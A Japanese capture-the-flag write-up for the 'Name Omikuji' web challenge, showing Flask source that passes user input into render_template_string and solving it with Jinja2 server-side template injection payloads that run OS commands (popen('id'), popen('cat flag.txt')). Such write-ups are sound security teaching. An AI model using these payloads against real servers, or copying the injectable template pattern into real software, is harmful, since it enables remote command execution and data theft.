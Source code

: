 # Name Omikuji:Web:XXXXpts
あなたの名前を占います！ (ちょっぴり厳しめ！)  
[https://name-omikuji.web.cpctf.space](https://name-omikuji.web.cpctf.space)  
[source code](name-omikuji.zip)  

**Hint1**  
SSTI (Server Side Template Injection) が使えそうです。  
**Hint2**  
`{{ 3 * 3 }}` という名前にすると 「こんにちは、9さん。」 になります。  
`{{ request }}` といった名前にすると変数の中身を覗くことができます。  
**Hint3 (解法)**  
「SSTI flask Payload」 などで調べると有用なペイロード (=攻撃用のコード片) が得られるはずです。  
今回の場合で言えば `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}` によってOSコマンドインジェクションを達成することができます。 (`id`の部分がコマンド)

# Solution
URLとソースコードが与えられる。  
アクセスすると、名前占いを行ってくれるサイトのようだ。  
![site1.png](site/site1.png)  
試しに名前を入れてみると凶と言われる泣。  
![site2.png](site/site2.png)  
いくつか別名を試すが、凶か大凶しか出ないので相当に厳しい占いのようだ。  
ソースを見ると主要な個所は以下となっていた。  
```python
from flask import Flask, request, render_template_string
import hashlib

~~~
app = Flask(__name__)


def get_fortune(name):
    hash_value = hashlib.sha256(name.encode()).hexdigest()
    zero_count = hash_value.count("0")

    if zero_count < 4:
        return "大凶"
    elif zero_count < 8:
        return "凶"
    elif zero_count < 16:
        return "小吉"
    elif zero_count < 32:
        return "中吉"
    elif zero_count < 64:
        return "吉"
    else:
        return "大吉"


@app.route("/")
def index():
    name = request.args.get("name")
    if name is None:
        return f"""
        {css}
        <h1>🔮 名前占い 🔮</h1>
        <form action="/" method="get">
            <label for="name">あなたの名前を入力してください:</label>
            <input type="text" id="name" name="name" required>
            <input type="submit" value="占う">
        </form>
        """

    fortune = get_fortune(name)

    result = f"""
    {css}
    <h1>🔮 名前占い 🔮</h1>
    <div class="result">
        <p>こんにちは、{name}さん。</p>
        <p>あなたの運勢は…… <span class="fortune">{fortune}</span> です！</p>
    """

    if fortune == "大吉":
        with open("flag.txt", "r") as f:
            content = f.read()
            result += f'<div class="flag">フラグは{content}です。</div>'

    result += "</div>"
    return render_template_string(result)


if __name__ == "__main__":
    app.run()
```
どうやら結果が`大吉`になるとフラグが表示されるようだ。  
名前占いのロジックは、SHA-256の結果がすべて`0`である場合のみ`大吉`になるというあり得ない厳しさだ。  
不可能なのでソースをよく見ると、`render_template_string`で明らかなSSTIがある。  
`flag.txt`にフラグが書かれているようなので、既知のペイロードである`{{lipsum.__globals__['os'].popen('cat flag.txt').read()}}`で読み取ってみる。  
![flag.png](site/flag.png)  
flagが得られた。  

## CPCTF{sst1_is_d3ngerou2}